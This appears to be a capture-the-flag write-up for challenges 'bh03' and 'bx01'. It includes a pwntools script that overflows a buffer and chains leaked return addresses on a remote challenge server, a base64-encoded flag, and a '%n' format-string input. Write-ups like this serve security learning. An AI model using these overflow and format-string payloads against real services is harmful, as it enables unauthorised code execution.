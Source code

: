 flag: `caNaRY-CoalMINE-2811`

## bh03

we don't have a binary for this one. The server it tells us to connect to gives us three functions to return to and then tells us the return pointer before exiting.  I used cyclic to determine that the correct offset was 45 and then wrote a python script to read the addresses in and overwrite the return pointers correctly.  After successfully returning to all three functions it gives us this text. 

```python
from pwn import *

p = remote("ggcs-bh03.allyourbases.co", 1337)

print(p.recvuntil(": "))
three = int(p.recvuntil("\n"),16)
print("function three: ", hex(three))

print(p.recvuntil(": "))
two = int(p.recvuntil("\n"),16)
print("function two: ", hex(two))

print(p.recvuntil(": "))
one = int(p.recvuntil("\n"),16)
print("function one: ", hex(one))

print(p.recvuntil("you?"))

payload = cyclic(49-4) + p32(three) + p32(two) + p32(one) + p32(three)

p.sendline(payload)

p.interactive()
```

`RmxhZzogUmV
UVE9mdW5jVGl
PTi0xOTkw`

I tried rot13 once and then stuck it into cyberchef and played around with it.  It ended up being base64


flag: `ReTTOfuncTiON-1990`

## bx01

what the fuck

`111111111111111111111111111%n`
made it print out
`Object validated, contents is 'Right now I would be number 1'`
